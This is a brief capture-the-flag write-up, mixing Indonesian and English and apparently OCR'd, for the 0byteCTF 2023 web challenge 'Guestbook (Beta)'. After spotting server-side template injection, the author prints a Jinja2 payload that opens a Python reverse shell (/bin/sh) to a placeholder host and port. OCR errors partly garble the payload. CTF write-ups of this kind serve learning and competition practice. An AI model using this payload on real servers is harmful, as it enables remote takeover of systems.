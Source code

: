 # 0byteCTF 2023
CTF writeup for The 0byteCTF 2023. I took part in this CTF competition with the Waifuku JETSUKII Waifu Mu ?? team but i solo player literally wkwkw

| Category | Challenge |
| --- | --- |
| Web | [Guestbook (Beta)]

<a name="br1"></a> 



**0bytecꢀ2023**



<a name="br2"></a> 

**user**

**soal**

Tampilan web



<a name="br3"></a> 

Otak :

Pertama dikarenakan tampilan seperꢀ itu langsung felaling SSTI karena pernah

nemuin dan benar

Saya menggunakan pyload jinja RCE



<a name="br4"></a> 

*{% for x in ().class.base.subclasses() %}{% if "warning" in x.name*

*%}{{x().\_module.builꢀns['\_\_import\_\_']('os').popen("python3 -c 'import*

*socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.con*

*nect(("x.x.x.x",PORT));os.dup2(s.ﬁleno(),0); os.dup2(s.ﬁleno(),1);*

*os.dup2(s.ﬁleno(),2);p=subprocess.call(["/bin/sh", "-i"]);'")}}{%endif%}{% endfor %}*

Langsung eksekusi

Connect

